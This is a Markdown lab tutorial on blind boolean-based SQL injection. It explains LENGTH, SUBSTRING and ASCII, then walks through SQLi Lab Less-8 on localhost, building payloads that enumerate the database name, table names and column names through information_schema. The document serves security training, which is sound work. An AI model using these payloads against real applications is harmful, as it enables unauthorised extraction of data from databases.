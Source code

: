 <h1 align="center">Blind (Boolean-Based) SQL Injection</h1>


- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes

#### Syntax

`LENGTH(string)`

- eg. `SELECT LENGTH("SQL Tutorial");`
- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

#### Syntax

`SUBSTRING(string, start, length)`

- eg. `SUBSTRING("sqltest",2,3;)`
- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

#### Syntax

`ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

#### Syntax

`CHAR(ASCII number)`

<br>

<h1 align="center">Practical Lab Training </h1>


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

#### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

#### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

#### 3. Finding Table name 

- Step by step payload creation

	- `AND (ascii(substring()))`

	- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

- Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

#### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`







